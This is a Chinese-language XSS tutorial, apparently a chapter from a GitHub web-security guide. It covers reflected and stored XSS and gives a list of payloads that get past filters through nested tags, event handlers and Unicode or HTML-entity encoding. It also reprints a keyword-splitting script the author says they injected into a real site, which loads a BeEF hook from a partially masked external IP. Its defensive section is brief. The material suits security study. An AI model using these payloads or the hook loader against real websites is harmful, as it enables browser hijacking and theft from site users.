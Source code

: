 # 02.XSS跨站点脚本

##2.1 XSS介绍

  __Cross-Site Scripting(跨站点脚本)__是Web中最广泛利用的一种漏洞之一，占据OWASP 2013年Web漏洞第三位，其广泛程度以及危害性可见一斑。
  
  XSS漏洞的原理，简而言之，就是：利用Web应用程序的漏洞，向页面中注入JavaScript恶意代码使其运行并进行破坏。 
  
###2.1.1 XSS分类
  
  XSS 主要分为两类，反射性XSS和存储型XSS。
  
  * __反射性XSS__
  
    反射性的恶意并不直接存储在目标系统存储中，攻击者利用漏洞构造指定格式的URL，利用欺骗等手段让受害人误点击URL从而访问目标页面并指定恶意脚本。
    例如：`http://webapp.com?content=<script>alert('XSS')</script>`

  * __存储型XSS__
  
    存储型XSS是指，攻击者将恶意代码存储到目标系统中，在系统向页面输入该内容时，脚本自动被执行。

###2.1.2 XSS产生原因
  
  有句话说的妙：___All Input is Evil！所有的输入都是恶意的！___这是防御式编程里必须设定的一个前提。XSS产出的原因是由于没有对用户的输入进行足够的校验和过滤，攻击者可以构造恶意脚本从而导致漏洞的发生。
  
  用户在input[type=text]框里输入`<script>alert('xss');</script>`，系统就毫不保留得在浏览器进行输输出，从而导致XSS漏洞，这是对合法用户极其不负责任的一种行为。
   
###2.1.2 XSS可能出现的地方

##2.2 XSS注入技巧（payload）

 **只提供思路，不适用所有情况，根据过滤规则的不同，选择构造不同的playload。**

###2.2.1 屌丝篇
  
####2.2.1.1直接上菜

```javascript
<script>alert('xss');</script>
```

如果你的系统可以让用户那么直接执行javascript脚本，骚年，那你就等着哭吧。

####2.2.1.2 过滤script标签

ok，稍微有一丁点安全意识的人都会把script标签过滤掉，过滤的规则会很多，注入一定要根据过滤的规则不同而选择不同的playload，这里尝试讲解两种情况的过滤：
  
  * 过滤script标签本身，内容不过滤
  * 过滤script标签以及包含的所有内容

假如用户的输入如下：
```html
<script>alert('xss');</script><p>正常文档</p>
```

那么第一种情况过滤的结果为：
```html
alert('xss');<p>正常文档</p>
```

而第二种情况过滤的结果为：
```html
<p>正常文档</p>
```

如果系统没有对用户输入进行递归的xss过滤的话，那么第一种情况，我们的playload可以是：
```html
<scr<script>ipt>alert('xss');</scr</script>ipt>
```

而第二种情况，可以尝试这种技巧：
```html
<scr<script></script>ipt>alert('xss');</scr<script></script>ipt>
```

####2.2.1.3 标签事件注入

标签的事件**on(event)**是很容易被利用作为playload的。例如：
```html
<p onmouseover="alert('xss');">鼠标移动到这里触发js脚本！</p>
```

如果想让脚本自动执行，可以利用onload,onunload,onerror等时间，可以利用onfouse事件，例如:

```html
<input onfouse="alert('xss')" autofouse />
```

如果系统对标签事件进行了过滤，那么可以针对过滤的规则进行相应注入，例如**2.2.1.2**提到的技巧。

####2.2.1.4 /代替空格

####2.2.1.5 JavaScript Unicode编码注入

  如果系统后台对html标签进行了过滤而没有然后的可能，同时前端Javascript脚本获取资源时并没有进行转义就输入，那么你可以尝试使用JavaSscript的Unicode编码进行注入。
  
  `<script>alert('xss');</script>`
  
  对应的JavaScript Unicode编码是：

  `\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003c\u002f\u0073\u0063\u0072\u0069\u0070\u0074\u003e`
  
  一般系统后台不会识别这是JavaScript的Unicode编码形式，所以都通过了验证。但当前端的JavaScript使用如下方法显示内容时，XSS漏洞就出现了：
  
```javascript
document.write('\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003c\u002f\u0073\u0063\u0072\u0069\u0070\u0074\u003e');
```

####2.2.1.6 HTML实体编码

  ___HTML解析器能够识别文本节点和参数值里的实体编码，并在内存里创建文档树的表现形式时，透明地对这些编码进行解码___。所以一下两个URL实际上是一样的。
```html
<a href="javascript:alert('xss');">click it!</a>
VS
<a href="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x27;&#x78;&#x73;&#x73;&#x27;&#x29;&#x3B;">click it!</a>
```
  
  
  
####2.2.1.7 其他可以利用的标签

  * iframe
  * meta
  * style
  * embed
  * flash
  * applet
  * ...

###2.2.2 高帅富篇

####2.2.2.1 伪协议javascript:alert('xss')

####2.2.2.2 伪协议data:text/html

####2.2.2.3 绕过关键字过滤的技巧

以下是我成功注入一个网站的一段js代码，系统对window,document,createElement,js等关键字进行了过滤，但还是被成功注入了。
```javascript
if(typeof beef=='undefined'){
  var url='http://119.xxx.128.103:3000/hook.'+'j'+'s';
  dd=self['d'+'o'+'cument'];
  bf=dd['create'+'Element']('script');
  bf.async=true;
  bf.src=url;dd.body.appendChild(bf);}
}
```

####2.2.2.3  完恶之源eval

##2.3 XSS防注
  
    数据和架构分离：前端模板jQuery，ejs，ployer，$('<div/>')
    
    no el！use c:out
    
    http xss header
    
    白名单标签为主+黑名单为辅
    
    no external script
    
    RichTextArea 递归过滤
  
##2.4 XSS平台：beef-xss

参考文档：
  * OWASP 
  * 维基百科
  * 百度百科
  * 《Web之困（现在Web应用安全指南）》
  * 《白帽子讲Web安全》
  * InfoQ: http://www.infoq.com/cn/articles/web-security-practical-operation
  * 《web application obfuscation》
